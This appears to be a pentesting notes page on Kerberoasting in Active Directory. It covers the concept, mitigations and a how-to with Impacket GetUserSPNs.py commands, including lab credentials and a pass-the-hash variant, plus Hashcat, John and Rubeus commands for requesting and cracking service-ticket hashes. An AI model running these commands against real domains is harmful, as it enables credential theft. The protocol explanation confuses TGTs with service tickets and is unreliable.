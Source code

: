 # Kerberoasting

## Introduction

Kerberos encrypts Ticket Granting Tickets (TGTs) that are provided from the Domain Controller (DC) -- Which typically acts as the Key Distribution Center (KDC) against a user's Kerberos hash. <mark style="color:red;">Kerberoasting</mark> means that <mark style="color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

Note: You NEED valid credentials inside the domain to perform this attack.

## High-Level Understanding

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

* It is important that we focus on the <mark style="color:yellow;">KRB-TGS-REQ</mark> and <mark style="color:yellow;">KRB-TGS-REP</mark>
* With the <mark style="color:yellow;">REQ portion</mark>, you are requesting the TGT from the TGS
* With the <mark style="color:yellow;">REP portion</mark>, you are obtaining the <mark style="color:yellow;">TGT reply</mark> that is <mark style="color:yellow;">encrypted with the NTLM hash</mark> of the account that the service is running under&#x20;
  * This is typically a <mark style="color:yellow;">SPN</mark>
  * What does this look like?&#x20;
    * <mark style="color:yellow;">mssql\_svc</mark>
    * <mark style="color:yellow;">MSSQL/sql1@htb.local</mark>
    * <mark style="color:yellow;">Service/hostname@domain</mark>
* You can then take the NTLM hash offline (obtained from the Kerberos TGT Reply message) and crack it
* You can <mark style="color:yellow;">execute this attack remotely or locally</mark> as long as you have <mark style="color:yellow;">valid account credentials</mark>

### Mitigation Strategies

* Since kerberoasting takes advantage of the pure nature of Kerberos, there is no official mitigation strategy for it, simply recommendations
* Therefore, enforcing strong and complex passwords throughout your domain is the best way to mitigate this threat
* Rotate these credentials often; expiration times
* Make sure your service accounts are using the least privilege possible
  * Do NOT put these accounts in the domain admins group

## How To

### Get-UserSPNs.py

* Check if the user has a SPN with the following command:

```python
Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

# The SPN will appear as RESEARCH/web_svc.search.htb:60001
# You will also get a hash, save it and crack with John

john --wordlist=/usr/share/wordlists/rockyou.txt hash

# Or Hashcat

hashcat -m 13100 -a 0 kerberoast.txt /usr/share/wordlists/rockyou.txt
# -a 0 -- Execute dictionary attack against provided details with specified wordlist
```

```
# Domain Account/Credentials Method
GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted

# Domain Account/Credentials Method w/ Pass The Hash
GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
```

### Grepping for Hashcat Formats

```
hashcat --help | grep etype
```

### Rubeus

```
Rubeus.exe kerberoast
```

## Reference

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast" %}
